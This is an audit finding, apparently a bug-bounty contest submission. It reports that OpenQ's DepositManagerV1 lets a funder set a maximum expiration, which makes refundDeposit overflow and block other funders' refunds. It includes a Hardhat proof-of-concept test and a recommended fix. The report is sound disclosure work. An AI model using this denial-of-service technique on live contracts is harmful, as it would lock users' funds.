 TrungOre

high

# Missing check of deposit's endTime lead to unable to refundDeposit

## Summary
Since there is no check about the end time of the deposits when a user call `DepositManagerV1.fundBountyToken()`, a attacker can abuse this function by depositing into bounty a token with `expiration = type(uint256).max`. 
This will lead to the DDOS attack with function `DepositManagerV1.refundDeposit()`. When a user try to call refund, the function will loop through the entire array `deposits[]` to calculate the total locked fund. Then when the loop reachs to the deposit of the attacker, it will calculate `depositTime[depList[i]] + expiration[depList[i]]` and compare it with `block.timestamp`. Unfortunately `depositTime[depList[i]] + expiration[depList[i]] > 1 + 2^256 - 1 = 2^256` ==> overflow here

## Vulnerability Detail
You can place this test into `DepositManager.test.js` -> `describe('refundDeposits')` -> `describe('Event Emissions')` -> ``
```javascript=
it.only('should revert when expiration = type(uint256).max', async () => {
    // ARRANGE
    await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);

    const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
    const bounty = await AtomicBountyV1.attach(bountyAddress);

    await mockLink.approve(bountyAddress, 10000000);
    const volume = 100;

    const depositedTimestamp = await setNextBlockTimestamp(10);

    /// user A deposit link with expiration = 1 
    const tokenDepositId = generateDepositId(Constants.bountyId, 0);
    await depositManager.fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);

    /// user B deposit native token with expiration = 2^256 - 1
    const protocolDepositId = generateDepositId(Constants.bountyId, 1);
    await depositManager.fundBountyToken(bountyAddress, ethers.constants.AddressZero, volume, BigNumber.from(2).pow(256).sub(1), Constants.funderUuid, { value: volume });

    // revert because of overflow error 
    const expectedTimestamp = await setNextBlockTimestamp(2764800);
    await depositManager.refundDeposit(bountyAddress, tokenDepositId);
});
```

## Impact
Funders can't call refund when the deposit expired.

## Code Snippet
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/BountyCore.sol#L342-L346

## Tool used
Hardhat 

## Recommendation
Check the endTime = startTime + expiration when funding the bounty or extending a deposit. 
